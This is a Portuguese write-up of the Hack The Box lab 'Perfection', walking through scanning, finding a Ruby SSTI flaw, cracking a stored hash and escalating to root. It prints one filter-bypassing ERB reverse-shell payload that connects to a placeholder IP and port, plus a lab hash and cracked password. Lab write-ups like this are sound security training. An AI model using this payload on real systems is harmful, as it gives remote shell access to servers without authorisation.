



# HTB-Perfection

Meu primeiro passo é iniciar um portscan para descobrir os serviços rodando na máquina. Gosto de rodar o rustscan para descobrir mais rapidamente as portas, junto do nmap para fazer scan de todas as portas abertas demora bastante, por isso uso o rustscan primeiro.

Ambos confirmaram que apenas as portas 80 (http) e 22 (ssh) estão abertas.Nenhuma porta interessante está aberta, vamos partir para analisar a aplicação web. Enquanto olho manualmente, tentarei enumerar diretórios e vhosts usando o Gobuster.

Ambos os scans não trouxeram nada de importante...

Ao analisar a aplicação, achei o primeiro vetor de ataque localizado no diretório /weighted-grade.

No final da aplicação, encontrei um aviso de copyright mostrando que a aplicação usa WEBrick que é feito em Ruby. então busquei mais sobre e cheguei a conclusão de ser uma falha de  SSTI (Server Side Template Injection) que iremos exploitar nessa maquina.

Então, preenchi todos os parâmetros enquanto rodava o Burp Suite para capturar a requisição e começar a testar alguns payloads SSTI para Ruby, usei um pouco de artigos sobre exploração de ssti e alguns payloads do repositorio AllPayloadsEverthing.

Apos ficar tentando algumas coisas me deparo com um aviso de input malicioso, ok… já é um diferencial ou seja, estamos no caminho certo.

após testes e testes de diferentes payloads e tentativas de obfuscar finalmente consegui um payload que bypassou o aviso de input malicioso, então ja modifiquei ele pra uma reverse shell. **Payload utilizado:** math%0a<%25=spawn("sh",[:in,:out,:err]=>TCPSocket.new("IP",PORT))%25>

Após entrar na máquina, fui direto para o diretório /home/susan onde encontrei a primeira flag "User.txt". Após isso, ja fui rodar o linpeas para mapear a máquina em busca de algum vetor de priviesc

Dentro do diretório /home/susan/Migration, há um arquivo chamado pupilpath_credentials.db. Ao dar um comando cat para lê-lo, vemos isto:

`Susan Millerabeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f!aP#`

Continuando a vasculhar, encontramos o diretório /var/mail onde contém um arquivo chamado susan.

A partir daqui, pedi para o chatgpt gerar uma oneliner do hashcat (eu sempre esqueço a sintaxe :( ) , exemplo: `hashcat -m 0 -a 3 -o —potfile-disable <hash_value> …` para fazer a quebra da hash e conseguirmos a senha susan_nasus_413759210.

Com isso, podemos logar como root e finalmente pegar a flag root.txt.

---

**By Enzo santana (0xEnzoSantana)**